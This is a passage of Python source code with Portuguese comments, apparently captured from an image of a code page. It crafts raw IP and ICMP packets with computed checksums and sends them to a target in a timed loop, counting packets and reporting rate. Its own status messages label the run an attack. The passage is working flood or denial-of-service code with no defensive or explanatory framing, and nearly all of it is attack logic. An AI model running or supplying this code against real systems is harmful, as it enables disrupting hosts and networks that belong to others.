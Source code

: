 ```python
            icmp_header = struct.pack('!BBHHH', icmp_type, icmp_code, icmp_check, icmp_id, icmp_seq)

            # Calcula o checksum ICMP
            temp_icmp_packet = icmp_header + icmp_data
            icmp_check = checksum(temp_icmp_packet)

            # Empacota o cabeçalho ICMP final com o checksum correto
            icmp_header = struct.pack('!BBHHH', icmp_type, icmp_code, icmp_check, icmp_id, icmp_seq)

            # --- Montagem do Pacote Completo --- (Cabeçalho IP + Cabeçalho ICMP + Dados)
            packet = ip_header + icmp_header + icmp_data

            # Calcula o comprimento total e o checksum do IP agora que temos o pacote completo
            ip_tot_len = len(packet)
            # Recria o cabeçalho IP com o comprimento correto (checksum ainda 0)
            ip_header = struct.pack('!BBHHHBBH4s4s' ,
                                ip_ihl_ver, ip_tos, ip_tot_len,
                                ip_id, ip_frag_off,
                                ip_ttl, ip_proto, socket.htons(0), # Checksum zerado para cálculo
                                ip_saddr, ip_daddr)
            # Calcula o checksum do IP
            ip_check = checksum(ip_header) # Checksum apenas do cabeçalho IP

            # Recria o cabeçalho IP final com o checksum correto
            ip_header = struct.pack('!BBHHHBBH4s4s' ,
                                ip_ihl_ver, ip_tos, ip_tot_len,
                                ip_id, ip_frag_off,
                                ip_ttl, ip_proto, ip_check,
                                ip_saddr, ip_daddr)

            # Monta o pacote final
            packet = ip_header + icmp_header + icmp_data

            # Envia o pacote para o alvo
            try:
                s.sendto(packet, (dest_ip, 0)) # Porta 0 é ignorada para sockets raw IP
                packet_count += 1
                # Imprime status a cada 100 pacotes para não poluir a saída
                if packet_count % 100 == 0:
                    remaining = int(end_time - time.time())
                    print(f"[*] Pacotes enviados: {packet_count} | Tempo restante: {remaining}s", end='\r')
            except socket.error as send_err:
                print(f"\n[!] Erro ao enviar pacote: {send_err}")
                time.sleep(1) # Pausa antes de tentar novamente
            except Exception as general_err:
                print(f"\n[!] Erro inesperado: {general_err}")
                break

    except KeyboardInterrupt:
        print(f"\n[*] Ataque interrompido pelo usuário.")
    finally:
        elapsed_time = min(duration, duration - (end_time - time.time()))
        rate = packet_count / elapsed_time if elapsed_time > 0 else 0
        print(f"\n[*] Ataque concluído. Total de pacotes enviados: {packet_count}")
        print(f"[*] Duração: {elapsed_time:.2f} segundos")
        print(f"[*] Taxa média: {rate:.2f} pacotes/segundo")
        # Fecha o socket ao terminar
        if 's' in locals() and s:
            s.close()
            print("[*] Socket fechado.")
```